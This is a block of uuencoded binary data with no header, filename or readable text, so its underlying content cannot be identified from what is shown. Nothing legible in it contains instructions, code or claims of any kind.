M.,L=S2.2ES=EN3Q;SX?W'I&>\BAA2[4*9%,$K&(F'H>\#^-$'D-'L-V5R"LH
M!$!/5</%M<I9DY5A/#)Q$IS$&[email protected]$?#&WA`V[;P8[<]&/2:1^<#
M061'6KDO%JSM;:DI\CT*:,_IVKV^XW8[S?:`'-;WE4(A"Y89D[%BV@SV+.'#
M-;R#\'9_EWM+`L<&=R8K^B<N7"`8*<4P"]*2YJM14+,6=?<>N[`Y0+:\58B`
MHPP*8YT>@I&RUO19LGFU%%,?\[8LM2IB]P?_)QR`5P$Z<2?C6&,'*]H3LW>T
MK*08&C$UKULI.YDU_=FMH`.1+V.I_SPYJZTR$PFJY_$W0(4J2ALA1`/0Q].B
M#N1KD:/&)AG23&09FURSTXV],XJGEG2TL6@XZ@GU5CBLL41;.AVELUS,%A@9
MJG>]AYAB=%4<9[;^]B^9,T0'X^6<\6X7LZV<SATJ6@$2!T@C#>&EIW&=Q#P3
M[HPTV!!>HP_X$H/80"Y>-1@5)&-A"$J)5XFT?F2>VC"3,6,]^:)P*+!Z)0:%
M/^%F!+(SG&8)WXG3=GK-.K;!>42UPB/*XDMM^N*=KM-VG5^:_4&S??*(>LJ!
MW.[TSNS'M(N%4A(?)P[V:C9.V#A%<@ZML8=F9F3Q1W5,Q>8EBAG!@-"".YW/
M%[&;!)F=)4)<?$\4;LO"B[J`>,[0+:$F[Q4>O7[S'^N[=(4#=:&U0^2Y8V+X
M\Z^U/<-OT2X43^@7NP%R>>/JJQ_7'HI[I'A1P1)4+-_C#J#H(+R",6.B`&G`
MY-5IUDW("4CFN5[0-F^0#GQ:`F$BB'6#B'=A>0R%3@G]10PH'Y642"#XN*X_
M7Q)3X"=@(\THWJ"XM$$8YAB4M*&9EE@\:UQMB;)35,<75&)`SX!K0W&NBLRT
MI"E%ST]!*VKM\$R(!3H'\O19$@!3$PUT(?];F`20Z]*!`"D*9NZ$FOW)EA-Z
MIY0K\.;.#79@8/O,-!52'[email protected]?0YFZW/MF_]M-4>/*IL/GCX"*2EAH6
M":ZC)*;ZA:G)]:>!-[M9:%0E[G:44.0-#TUX+(&4-CN%L*@BHYJJ[7`T.SY=
M>#.;6>[&;C.&4U*CI)2O8"SRK`!B555IT>#GX_B@>FN>_5=KWW12C`3\$0][
MC9U6J<(0`S'I+D`J4"%!(9;%?&JVX1'STV1VYDUFF=-FNS^PVW4'W)1$WLQ'
M],#3%LO@UN49K6Y_T$,GP_4UW`&FDQE<8\!(^&I^Y]+D[,N]/4B[!NCP#V]Y
MZ3-N%OW[]O,7)@/:HW(A"5.>]L?+%]\_]1LNYW-0+MR+C?OV_+WZF?<;U@`*
M\]%]].PV"NBK52KPM[A?+8A_\5>N%5\4*]5:N5"N%$KE%RBW5"R]L`H;Z-_:
M[P8>>2WKQ>)FN9@&R>76Y?^'?OXUFFH7[.FO;ZX1E_?/F\DR&&4^.KT^A)(N
MYXO5[,N7B^4<'$5EN`6H;]4MNW_FMM'_4`'8S+;^^_?ZF?V3X^+3W`9VM]NR
M!\?H=/QCRT(KW?GYW&Y96VBK*)>V8&/S1N(.(T&'Y9[WK>GD>C@/+Q%7D??"
MZ^Q+>,[*I*L*4DBQ)H@T4=6_>L"_L<^X_LD(;JR-U>N_7"U42GC]5\OE<J6*
MRA6KU=KW]?^G?#],9O[T9A18_Q-&H^EDF+_Z\%)*0T>NG'9'%`"DQ"VJMIR_
MVHKU(YB>[,O@/@K008P5>_&B=&%5\H"#X4,8!=?8U!N=TK0T=U,$5=Q1$/J(
M6<P(6K2\&=#JE5IQW;$71@"0;"`NP!#\83*K<MZ<L9H!T20D7=<?!3YKSH!M
M#&0\NRV7BE[&GR,VB(E2R>LF-T3')4$=YM:;8J\K!\6B?SCRJX299`XNJ>Q5
M\S?&:O[O>P9[9^>=DO>&2*G04CPL"ZP@Y9IH*:Z1#5[(7.(<!>O=6&]0QW-,
MRX(\",3H4_]2V/N+N_"PU:GHCC2+_L8OJTSP#6]''][K3GZEG@DP=W9$1VJX
M^JZANM"W^*DE#-#HCR3,R!,,ARX--`#=W8VE\("'`((APHRH-)4F,M4&!4;F
M2A[=/K&Z]ANL]IPCMJ#3R3AR&<F1L26`$CP59#)*=I;Z-WC'JZXQ<V(@]&+9
MC&BR'QNO,7,FO0WGEVZG-^!B47BM!K4L2?(HMZ=7R0J&EH_\1'2?:99*\$KP
MRTTZ0&/[email protected];VJ\OZQ4/32(*KC(3@%!H&-W(``?[Y$>[(W%>$_`7R'0C%U
M@ZO'/;T+QPQ&+.H!B4>\MU&9APZ`F4KA(3`(/H1=$TL].894:4="4)J0SY,O
M6>71FN[%4`R+UZG9`:Q:X>*MJ4_08D3))^_%EO498=^1\(A']+,TA0@C$:6]
M/>I[)XQB"RU_/L*B7=@-@I$U7LZOK5-TFKT.K1-T.*$_W7D=EZ)`Y-T!X2+O
M<!DC[O$#`A0LUF!']SWYN8=NA?*N1++DEREL:6A-/6Q$A)VHTN(Y2+^>A&%`
M]#1I,E:"$UXYZ),SH/X9L/A"%"J.P2NWE('U*2&K*NMTZ%9QB;@MP8G-<["J
MET$+Q9A36HF5RB2)6,X7,)\A/(-0[YI$V@C:DN@L?RL5?H..D5MK62SDK*5_
M;\@*O/L<XN1(MS[(PQ%9T<."6M<A(OL_Q`RC^8J)8#*CO_":)39W\IB\R0B!
MH[/Q$.W`0%!5@/OAP:AX,*SXFD(,K8R;4BOOU-9I$B0MPL*[%<78[+ZW5F&^
M4U'E\<-EX/TF2;XI8Q>GJ/SH,R=TQ:S1`B,H4*OL#M$L#I>3T25Q'Z:6Q=U%
MA3<\\2:2'Q[H:[3*\KP_:2*WU3U"G4KA1O`F(W&E:MT:JIN6#GC2#B8A[3F=
MKG_!.X/`;M-=@7&01/<\MGI$!X=H]IADTXBU[XDM8@:;(68?;<Z8!&*5)>-Z
M&\2,L4R6-;;[`>SR@B7P8BLM$=\EMS=#E]=I<E/K;0JIB`!0ZD73YFP2G<\F
ML&K[^/Z4!Y8`W\3*Y?U:M5`8$XUL$`5J_+YN/I'%^,7V33EK.[&E'"&&K**5
M+YQFK"J1_X-=`UHO76^).`M@<YQ[CFQI-/8/RAM#-K'%]$@W$'.SG#]H,#C.
MU6HIJ!SXI0WAG-1@>I3M*?9?`F96"X[FL#P^*!Z.#S:$IMA(>M2.B?67@-:^
MOU\+_'%U0VBQ!E*BU(X(B9R'P9*..$>M6*P='):#PTV@9F@HA_?6]1C^?!,L
M'[C6+4@O!>(K'1[N[P<;(3YC4X_"$FW_\^4U=ITCHUG8']9*P;B\0325MM+B
MR960.';>H5\=5@\W.M&/P@F$I!R=VK"\7_(+&UD2%'A:3)@&CC@V0:GJ%4>;
M08;!3XM/;![,$1K7]BNU2E#9#$)Q`VLQDO@A]LK8'H`L>32_FV$6*+P*@H69
M"4(0VH/^P!Z<]\%\([HA7G>I1B,H4B_(MD!%Y&IN=`5\C9C9[0U:[GG?Z8'E
M7-WI]]VNW;//G`$\@.'Q6,#A80GA];I]E^J.--O''>;S:H)6$LE&^5Q+I-7L
M#RR/;08NL"0BK/-V$QR=NWU4OGUB+>9WZ)#";]_!?;"FA'\]`N$Y+H49R/"&
M&-.);M+@/S2";MUNM;"C*"/WL2TWG&MM75S\^./%1?WMQ04U_;NXZ.,7^W(I
M3NI"I3Y4NKBX+>8+%Q<<#+;TH"YUQ.8EOMJ(BU1B6^^O7*"UQ4M8NPZ6#2*B
MZ<ZG$_\!W4KP:^\N0;@?/4P#ZVHR&@4S:TL!LULGF@?6Q5:F'=SM=DB0'-+I
M?!M=/CX%P_IT`HY8\@U*JU@)1H7T^BJ*%N';O3W@.:Y0_3R1=81[F+)!,>9U
MSGH-8XL.L4M$7<`#7UR07#1NK[,76UN2=L?*(4SFSY2AC*DY>8QA\J5,79M*
M3UD[26F`/"UEQ>JE"EH0*X`^MHG2C&UAV<9JH/+*9H^DO&"^+WG#4HKKI2-0
M'']O=4,R14#K$V^*DPE&VL:0T7>/;/+DI_I4-O/Q$/B5C1+9$^&@4Z3K_L/I
M=2#^0J?WZQ-`\)%7!DE:+O*P[GX8S"-OV@IFE]@T/1'&.U-=SLA]+GS)Q[]@
M6D4`5'B":"\%%$I&\KK+$P135/^(8]<@8CEO==HG;G?0RRJ@CK`2&J$Q()]3
MI]5R>\[`3$(FMEHO1,]=/8<<Q'KZMGX>)Q22CF6]#%O;:`VX=AW^J9<9G(+9
MP<HB9L50<ZI!T]20E+2CXHZ)&XR6*T]P\EYOK;S+\O8-)ZTE7>3,:QC\`VBH
M<#Z-OTV-`G_YL(B2>+.<U3GZNU,?\`71M][@LD3M,FXC!/4_\%-OD5RF#P_F
M`NZ`)@IRY17<'BDKL'+-CDL*NT>M3OTG6L4=HKV//"))^[^8RT,'R""RW!((
M"[(HEE2,Q9'E$BOTB1W[//D"XOC"?:7TV,6(V>E-K$)QG/1L20?;^K?5_[5=
M/^UUVJBGZ!=6>28+*YY80]/&B39@(@YYRH684NG:L#AQ3;``2LAB/>V@V4;S
MW@;7R4YOP'J-?@LR8>Q3(^W>(?CY?`6>/,_QAI0AW4^X')&T)U-I6MKB-[4-
MD-9JRGK,=FM.74,PT@Z2D`LC]A@DE*$D&VE\_1<[G#5?:)E,@MB7/'^__!K[
M(,,Q=JM<>/KV^$UO:C0:V/<][4_>TW:+O+0X0'GAN1$4+^+NH"N:&0+IU0!1
MNMUKX&L6&BMPS<O6=^1!C($1?WZ1J5@O%!-S(NC'D+7Q$?6K;ZUKJ,[8;;V)
M=<-@H#&P"J50A4X_G39T/"$.<F>,'RM/)Y=7B-N-L..+X>22#`H(KL.;T`Q4
M8R/ANK>RD=;\#MK`I&/@3.&619*??`U_QOW[V1?OY]RX!5X\_7J(GZ:_LQ>F
MU!0KY?>8LNGAO%MDW"$W"!5QHWH%%K\]IN-<J")/%[MTSX@0L]3I3-6N-"2<
M,-[R59!849MO>O(53Z`G02G$T$WF%$\I4&0*%-H(O-7NON+5U[R("CFIQQ(S
M)\1'$.033'T\T_W8:3:LT71Z2BT?B98D8G!""&E!LA&,8'D;,$^%$@?(G`T^
M2I0A2@V2)!J2E.*;$FR0P68R#9WY-5+0NY@#.++[S;KA^!]ZX<2G&#*:)O,`
M%-QHM>+.H[;L^BFH[;V*]6RP:T?5>;BEO,)L)PM-XDY)\A+SFSY]SS=P)_JR
M(0>S-DCT-8*^(H/C?"RBX&^#B1`%3&'LP1\!S''?:?>;@^;'V%LD-\&5]GH\
M!&:Y=KRKTTT\`8-M=;K6;(1@H8^]0>`:6%\-S.:Q=6HNEA02)_B8*2!F^FR?
M4D2)U(6G-L]_Q#A(MS7FI<EX'3/XSDR@&>D`V(28AD^BE/[UA"M?621CF1[K
MU\E`]*%-]6U$")+_]F4@VA[S#8JYOEEY3+S`GB6*X5`2I3!F(OXNADGS!/+5
MQ3#Z3OY$(<RV40JC;R)IA##I?"'$+.I)0-V!$Q;5QBZBLSD#1R0>^J*7A[_:
M0O7[]S4_H_UW;,V[F396VW]7"]52-;;_KNWOOR@4:Z7]PG?[[S_C^X'8`=";
MK>N&T0CVCI<OHX=%`/8L:+.[\2/+;?5M5[G*_?[RO\[[IYW>P&*G)/M]YMV#
M/XDXN?L)'+U8[!C\P]*AY:PW5M>4;"BV.NF=CGS"U1&VRI;=.P%^9N"<.#WB
M4P\M@L'D&E]0Y=R6%T8VUJQ+SL=R-7-V'9VGEW$>YA/B\T=V!0Q#9,89=;9K
MSDGJMO'-7.\Y98I1WX$'TI&/'TIUW)G-)C:G@&Q0%'#L-LUN!%-T0'9)%`!#
M-C/^C#MMPCCNMRD3[.DH'0.&1W!5%`4,%2G;\&YM504(T(HL&Y'9CGOJMJ8H
M5\%R<Q>Q/9WSDU/+7*4D5^D[/Y\[[4'3;KF==NM78Y6*7*7=P3/2.W,:8#;N
M'IT?'SMX-?(J!THKLBB(R('D5HJ%E55BZ9%0I510$5,E2EI?*DH5>I<8]!ST
M[TZ[34(M2E4.U"J=LV[+`:[^V.UT0?3H-.16B@4-,=>QW9_:G4\MIW'B&`:Y
MI%;!WD(1=2$6O=[YZ/1^U:I4U"H]1)6=,\KJ&F?_0*W2<'!/T+C56YV^`3'P
MSF!`[(@,K]MLZ%5*YBK0ER.[_M-Y%U-/>R!4J6A5T(C!./=03]A\R*T<:%50
M6:?W$5I#/Q%Y*E6*>`0,B$D>SJ4JI:0JG>/C5K/M*`L3JE22JD#WCX'*^EV[
M[KAHT<&40I4#4D6NP^^.U(UIRS[IB_W?'P_W5U?I.P-6C50I%[U]I9G^>==!
M?6_(VPMI1N^$7@A_1=.2,I8L&0:F>6PJ659*HA5`E(*TKY)04@=<E4N>V;\T
MS\[/T([1[W;@Z9'3F;H5Q\/4L-3/,$R&4HG#9"RJ#A/MTD"?`668L'?AO@FD
M.DR-C@,/8`-211DF[1#7G\A_UTY@R^+O%%0D$'^]^3P2SEA+99\L\G@,#A?T
MH]VR;.D1GH@T^-</_!O$\#R@2[&_G"Q0$ZM*_7SC3=$?"(2[O)WX`9SX6O?@
MI-<2A1->?R2V,AGAU84_'1/S<58/GKN;[5-T6`Y,!S)D(T([L]NP/1H.QO]O
M[UO;VD:21L_7XU^AA\F<@7`9WS`.[.1=8YN,WW`[!F:2-^'X$;8`;8SMD>Q`
M=C?__7157]17208"DUEKG\U@J2_5U575U=7555"@_:ZY?W;2^:UM6P9M]G3;
MV@?E@%0)CUB6.?Z5R+BWMC4-OK]M=P_;^RQ.I&T5@T)$Z!%91Q>D7O/7=O.M
M;?&"DE1D203&RFU=)NA).6N8K(W6_+5H+5[Y"+:#Y<G*^FO=I&<>8>PDA1,"
M)!5&T@<I-\8OGB]]4&B:?(ND;R9)`A@6[1AN"A\<M<X("LE.!NR,[#*Q\ECO
M(^^DE3]`@^L\-01R41DU:^K\Q!^X>\4BKJ24PMA"F'\9-F@:>PL6Q?3+'8AS
M"J54"2&>O=EPV!H.J:QPE@*PI%*.'O>&_A6`37>,Y@-H;T+:XI0RI\.X,QH$
M=RG8_=6/KT\A1B"B(04>V)>U_"EL#VXFN$<5]$'WIN*G1$L4YT2K(,R.6Q%0
M9$_;[TX=]&9<7%<I3[^;OJ-]E4C+^MU"2+P<A91=V!._+;212@FI!&";=S[+
M>#`N3RF^D.9O-H)]&$&'/"*8/#Z`_\WP"$48]"R?.LLM#F58KTW(D'(RNX%7
M7\D_7Y4.:!EMOGF;&(M@T*$Y!%E5R_Q*F&L0(#XCPIMC`L==PK''_K1_+6TS
MU>G:&T>0=]TZE6R!//6O;!_)`A?VV0=*IT8694ZQ^@<+72I9J/_E9I#$R.,H
MD*P1@Q1Q=!+_RCQ4_\PR]ZNG)-\&=,HO[&@$[*G&#;G'ZP!,0P,FL$\F/BA`
MSO+@/X5,""8+N,U((Y?%*55V@W!TU0HN9E=7.`.N<J3K"+K6-47^',RF_BAM
MW4&XN!Q1R"=YDI@>*0T9ARAI=#.[H%<P\[4)!RHII?;\>'H<7.RC)W2>4MWQ
M;(IW;+,*GXV&2G$7M[1'G\-H/((8Z&>3`1%$7#)B^R^]MY@5N<D.<G`)2UOD
M/Y-V]L=73"3F*)DVDBC@#.1<+8=Q^V[BCV(4>S,F?UT-DM*[X?0&9R2E15J&
M_!M_*-Z5SU,:!.XX&@V_G%P34AY0[E<6MGQ59")YF91`^0HB.).`&P0!S?$@
M."8,D5'T*+C)69(Y%S7)>'#:67$7XKCYE1'^&+G(67CZ9CB^\(>P+H.(>&^W
M%J"(*)-9J,(LJ);@Y&[email protected]$4E9)_2.^#[)+@"FN]2M[A\A>%&=IC5
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
MG_:O'JV'KA[T3XLBH\.D=D:)-ID][5ZY0"JXF#&'[[email protected]",X.
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
M30O!]!K%MW5B?B0;5J3!I15(+J)\[email protected]_PNFEQUC46^=,Y)V=
M[M6UNC^&ER,P"W0.]]CY.+4&G\S5J+?>F,#YF-XXW_(_3N.:@%DG_._IDI"P
M'G"FMW3<>+]_U,#[+F^ZC8-OT".3C$:/X*/0.&P]8H^ZM!9=MHY^/_Q&H]07
M`+//!XU3(Q2TQ]ROI?^,?:)#_ZN4?VX>^)_P(F6\,;V;/J2/#/VOO%FN@?ZW
M52S7RL4:>0]^)Y6%_O<43_^&S'+OANHMO2CX8Q9&P6#YMW878_]7-LA"6"@0
M^0"WY9<%D?0(D?0J9:_I-4X.>H?DGQ74*@+RAJ@5TS'9S_6'LT&`[W#G-PQ'
MGX*H,$:GVV59=$-"C_VCP[:WA"&^L(KHR?-CS_=HTN;AF`C]BW#D1U^6O*.]
M/0(9+,6VMF"U\P<#R+[6GTW!(]@$'M)H@8%CI0")9I=YE6%X$9$>S/)PYMAI
MRM5`NI!Z!:C6)Y0TON%B;?D48N:=>GHC!<B>!FD[.ACCALDZ2>_RP)A,OJP+
M/V5ZH\V[^#+QT=F;RK&E%_]J'C3>ML&'!:,LG!R=0<#O5J?[]>>-#7D'MP25
M]/4L.T^I7(L+ZR7\C)^,Q4-JD?KTQ!\_4IV[4A:OCF&@Z+3S\>/GTD;QX\=D
MZ*)78XU8DO#C0(RW3GLXF7XAV+D.!X-@Y'TLK#.G*N_CTO)A<+M.PSYX;"]P
M&$PW?@\N:&"%E8T6ZQ<0O/RQ\-/U=#J)MW_^&0[MKDD-.!<@U>*?*9(&_A2T
M,C<*?UKYN(0#8BN-,6>[G<-&]SV=LQ=_:QX=[G7>O$Y$<8]/(J$=:(=PY2XA
MP0.XGX8'%3W&9;U!XKIDTNWQV>Y^ITGJI]',DNV[%;ZE#+9CH`&_]RBW.V'R
MEB#,?;N[?0(G-]L_8Z3>;6`P[V<6[VP;34MKW=_;2]#X#[QY0AH3R,B*JB#>
M3<$-#0U^B]L*+IG6O'CLW1*:\#\'()D(LWKAE&Z!R)XG@9@WF0GT>LLV]J5$
M(#RW5,__N-=_+N8>WD?Z^E^M58M%NOY7J^5*!?._01JXQ?K_!,^/?)U><DB=
MI`#UI8`KLUP>>6[[[X['-VFG^R?,',R-#J/Q+5G2R7N1IG+-N[T.^]?@%8*K
M_^[email protected]&B376'MD(>Q3GGF+I`D^;PI!_2'*TLBVCW:F;VKI*9O2LR
MLY-17NJ[5<[6W.@+_%"`?[8+/V)B>O:>+9%D:1=_<0/Y\@U&%.\%L,U)"O;`
MWH3;\8+Z#EK&`V1F=)G,XFLON)@(J_'%9"V()P6.VF3*R)P1-(+O>:6(1UZS
M"X^47--+4!32PB:RQ[@XQA3;W@?2W?FV-\9@`62@%WX<$$4%'3R3$NO%NUJ=
M%%,<;.2O6T7R57/,_:!I(^=JC7I*#:82J#7JMCYT!46M\BJUBK67!L!E9#)1
MBK2@57M^/K5<E91+\T532T/'QI5J;S)5YZ%4KM)R\HUAM0`TQ/S</T"Z6H^F
M^#W7BC6E8BS0FE(0LKIL,VI+"#4.D[\'TM\7=\A@ACU(<!B<>]Q,^!DN`6*U
M>-<\7\/P<_\8_5.F<V"EY-D!4QS0\%4(9TB4O4'$V-+;#L98=!0$@\O9,-.U
M;<<;D^+1;1@3\4%(GNR1X!1+V9QL:`R+IS<2M'BHGC0X"2+PLR+"#PJN3\83
MT$>(ZN&-+R_C8(H;I_$L\O`P3FL'.3B:;DOMH4"=1'!^1NI&`<_@&--+C]`7
M86L`S!^&5Y`'T6C3?N!O+V:>"QKE.)=^"KYL,Q`#+OB\V_&,[.XN@A&17E,:
MQ8_H9"!X0@(^83T/3.I4Q\8N_@!#>EG]G_N#$QC&_PBV9KYS5V(20*G$=FMF
M)5W48"W=B)923>Y,MX/IU;`0D`[A*Q?E`DDAYJFT!K*"G]1F/J8L@S2&_E"!
MS\XJA3A/>->W]B%H':$/Z>7J*=RRQX;(/\BZ.N<:W=VM+F?-VKJ=#584&`4\
